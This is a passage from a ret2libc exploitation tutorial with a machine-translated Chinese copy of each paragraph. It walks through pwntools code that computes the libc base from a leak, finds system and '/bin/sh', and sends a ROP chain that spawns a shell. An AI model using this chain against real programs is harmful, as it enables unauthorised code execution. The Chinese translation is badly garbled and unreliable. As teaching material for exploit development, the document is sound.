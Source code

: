 将**路径**提供给** libc库** **漏洞将自动计算**。

Inside the `get_addr`function the **base address of libc** is going to be calculated:

在“ get_addr”函数中，将计算Libc **的基础地址：

```python
if libc != "":
    libc.address = leak - libc.symbols[func_name] #Save libc base
    log.info("libc base @ %s" % hex(libc.address))
```

{% hint style="info" %}

{％提示样式=“ info”％}
Note that **final libc base address must end in 00**. If that's not your case you might have leaked an incorrect library.

请注意，**最终LIBC基础地址必须以00 **结束。 如果不是您的情况，您可能已经泄露了一个不正确的库。
{% endhint %}

Then, the address to the function `system` and the **address** to the string _"/bin/sh"_ are going to be **calculated** from the **base address** of **libc** and given the **libc library.**

然后，函数`system'的地址和字符串_“/bin/sh” _的**地址**将是**从** of ** of ** libc*的基础地址**计算** ** *并给定** libc库。**

```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```

Finally, the /bin/sh execution exploit is going to be prepared sent:

最后， /bin /sh执行利用将准备好：

```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

#### Interact with the shell #####
p.interactive() #Interact with the conenction
```

Let's explain this final ROP.\

让我们解释一下这个最后的rop。\ \
The last ROP (`rop1`) ended calling again the main function, then we can **exploit again** the **overflow** (that's why the `OFFSET` is here again). Then, we want to call `POP_RDI` pointing to the **addres** of _"/bin/sh"_ (`BINSH`) and call **system** function (`SYSTEM`) because the address of _"/bin/sh"_ will be passed as a parameter.\

最后一个ROP（``rop1`）再次呼叫主函数，然后我们可以**再次利用** **溢出**（这就是为什么``offset''再次在这里）的原因。 然后，我们要调用`pop_rdi`指向_“/bin/sh” _（`binsh`）的** addres ** addres **，并调用** system ** function（`systems`），因为_”的地址_” /bin/sh“ _将作为参数传递。\
Finally, the **address of exit function** is **called** so the process **exists nicely** and any alert is generated.
